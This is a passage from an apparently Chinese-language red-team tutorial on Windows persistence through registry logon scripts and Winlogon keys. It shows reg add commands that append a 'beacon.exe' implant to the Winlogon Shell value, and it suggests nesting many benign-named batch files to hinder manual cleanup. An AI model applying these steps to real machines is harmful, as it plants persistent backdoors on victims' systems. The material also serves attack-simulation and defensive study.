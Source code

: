 清除注册表启动脚本。

```plaintext
reg delete "HKCU\Environment" /v UserInitMprLogonScript /f
```

PS：既然可以使用 bat 那可以创建几十个 bat 脚本，文件名还都是正常的那种，通过 call 调用其他 bat，一层层调，套娃，让手工难度加大。怎么创建？最好通过 Windows API 来自动化完成这些内容。

#### 2.3.3 WinLogon

[https://www.bilibili.com/video/BV1N841147LY](https://www.bilibili.com/video/BV1N841147LY)

[Windows Persistence Logon Helper Winlogon - Google 搜索](https://www.google.com/search?q=Windows+Persistence+Logon+Helper+Winlogon+&sxsrf=APwXEdeDaz9tt1C2c4Jf83VDWduHRhsLEg%3A1682750954223&ei=6r1MZNSPDZGF2roP-feGkA8&ved=0ahUKEwjUrPzmv87-AhWRglYBHfm7AfIQ4dUDCA8&uact=5&oq=Windows+Persistence+Logon+Helper+Winlogon+&gs_lcp=Cgxnd3Mtd2l6LXNlcnAQAzIFCCEQoAEyBQghEKABMgUIIRCgATIFCCEQoAEyBQghEKABSgQIQRgBUPMBWIsDYOgEaAFwAHgAgAHrAYgBtQOSAQMyLTKYAQCgAQGgAQLAAQE&sclient=gws-wiz-serp)

WinLogon 涉及用户登录时初始化应用和 GUI Shell 的操作，可以通过修改注册表的方式运行正常初始化操作时顺便运行木马：

-   HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Shell，System GUI Shell
-   HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Userinit，初始化用户
-   HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Notify，

因为要修改注册表 HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon 项，需管理员权限，高完整性才能操作。这样好处自然是系统任何用户登录都能获得对应登录用户的权限，如果只是获得当前用户权限，只需将注册表 HKLM 换成 HKCU 注册表则普通用户权限修改即可。

1.Shell

默认值。

```plaintext
PS C:\Users\gbb> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    Shell    REG_SZ    explorer.exe
```

设置 Shell 值时，没有指定类型，因为默认字符串类型是 REG\_SZ 这里指定或者不指定都行。设置的值简写 beacon.exe 会在 C:\\WIndows\\System32 目录找，因此需要把 beacon.exe 放到此目录内，不过防止需要管理员权限操作，为了省事当然放到其他目录中写绝对路径。使用 /f 选项是因为值已经存在要覆盖原有值。

```plaintext
PS C:\Users\123> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, beacon.exe" /f
操作成功完成。
PS C:\Users\123> reg query  "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    Shell    REG_SZ    explorer.exe, beacon.exe
```

重新登录获得权限。

![WinLogin 进程运行状态.png](assets/1698895515-1dd7d6f538a127b3bf904d5b93d8e87a.png)
